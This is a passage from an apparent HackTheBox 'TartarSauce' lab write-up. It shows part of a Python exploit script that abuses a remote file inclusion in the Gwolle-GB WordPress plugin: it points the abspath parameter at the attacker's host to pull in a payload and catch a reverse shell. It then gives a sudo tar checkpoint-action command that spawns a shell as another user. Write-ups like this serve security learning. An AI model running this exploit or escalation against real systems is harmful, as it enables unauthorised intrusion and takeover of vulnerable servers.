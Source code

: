 ```py
def TriggerReverse(rhost,lhost):
    print("[+] Just Trigger It !!! [+]")
    url = "http://%s:80/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://%s/" %(rhost,lhost)
    r.get(url,proxies=proxies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local port', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport = args.localport
    
    '''Here we call the functions'''
    # Set up the web python server
    webServer()
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Create Payload
    createPayload(lhost,lport)
    # Trigger it
    TriggerReverse(rhost,lhost)
    
if __name__ == '__main__':
    main()
```

Let's begin our privilege escalation

# www-data --> onuma

We see that the user www-data can run tar as onuma without password

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-22-HackTheBox-TartarSauce/2021-12-22-HackTheBox-TartarSauce%2008:40:46.png)

We see on [gtfobins](https://gtfobins.github.io/gtfobins/tar/) what we can do with that

```sh
sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-22-HackTheBox-TartarSauce/2021-12-22-HackTheBox-TartarSauce%2008:47:04.png)

And we become onuma

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-22-HackTheBox-TartarSauce/2021-12-22-HackTheBox-TartarSauce%2008:48:07.png)
